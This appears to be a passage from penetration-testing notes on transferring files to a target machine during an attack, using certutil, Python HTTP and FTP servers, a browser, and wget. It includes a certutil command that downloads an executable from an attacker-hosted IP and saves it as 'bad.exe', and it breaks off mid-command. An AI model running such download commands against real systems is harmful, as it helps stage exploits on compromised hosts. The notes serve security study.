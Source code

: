 - [ ] Certutil (Client)

```powershell
$ certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```

**Note :** The space in between `40564.exe` and `bad.exe` is what the file we be named after download, in this case it is `bad.exe`

- [ ] HTTP (Server)

```powershell
# Python2
$ python -m SimpleHTTPServer 80

# Python3
$ python3 -m http.server 80
```

- [ ] Browser (Client)
	- If we have a python server hosting a file and we do have RDP on a client machine, we can navigate directly to the file by specifying the IP-ADDRESS of this server

- [ ] FTP

```powershell
# On Sender machine run this
$ python -m pyftpdlib 21

# On the receiver machine run this
ftp <SENDER-IP-ADDRESS> 2121
```

**Note :** Make sure to install the **pyftpdlib** module with `pip3 install pyftpdlib` , Also the receiver can either be a Windows or Linux client.
#### **Example**

![](https://i.imgur.com/qups1Lw.png)

You can log in with the username `Anonymous` and then when asked for a password hit **Enter** , Then do `ls` and use the `mget` command followed by the file you want to download.

- [ ] Linux
	- wget 

```powershell
wget <SENDER-IP-ADDR
```
